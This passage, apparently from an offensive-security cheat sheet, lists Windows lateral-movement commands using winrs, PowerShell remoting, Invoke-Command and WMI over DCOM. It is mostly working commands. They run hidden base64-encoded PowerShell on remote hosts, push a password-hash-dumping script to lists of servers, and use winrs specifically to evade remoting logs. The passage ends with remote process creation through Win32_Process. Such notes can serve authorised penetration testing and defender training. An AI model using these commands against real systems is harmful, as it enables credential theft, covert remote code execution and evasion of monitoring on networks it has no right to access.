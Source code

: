 Another lateral movement
- `winrs -r:<target> -u:<username> -p:<password>  "cmd /c hostname & whoami"`
- `winrs -r:<target> -u:<username> -p:<password>  "powershell -nop -w hidden -e <BASE64>"`

**PowerShell remoting / PSRemoting**

```PowerShell
$username = '<username>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <IP> -Credential $credential
```
- To interact with the session
  - `Enter-PSSession <SESSION-ID>` or
  - `Enter-PSSession -ComputerName <computer_name> -Credential $cred`

More commands
```PowerShell
# Execute commands or scriptblocks
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute scripts from files
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)

# Execute locally loaded function on the remote machines
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)

# In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList <arguments>

# Below, a function call within the script is used:
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)

# Execute "Stateful" commands using Invoke-Command
$Sess = New-PSSession -Computername <target_server>
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}

# Use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):
winrs -remote:<target_server> -u:<username> -p:<password> hostname
```

**Connecting to WMI From Powershell, another process**
- Create a PSCredential object
  ```PowerShell
  $username = '<username>';
  $password = '<password>';
  $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
  $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
  ```
- Enstablish a connection
  - `Enter-PSSession -Computername <target> -Credential $credential`
  - `Invoke-Command -Computername <target> -Credential $credential -ScriptBlock {whoami}`
  - ```PowerShell
    $Opt = New-CimSessionOption -Protocol DCOM
    $Session = New-Cimsession -ComputerName <target> -Credential $credential -SessionOption $Opt -ErrorAction Stop
    $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
    Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}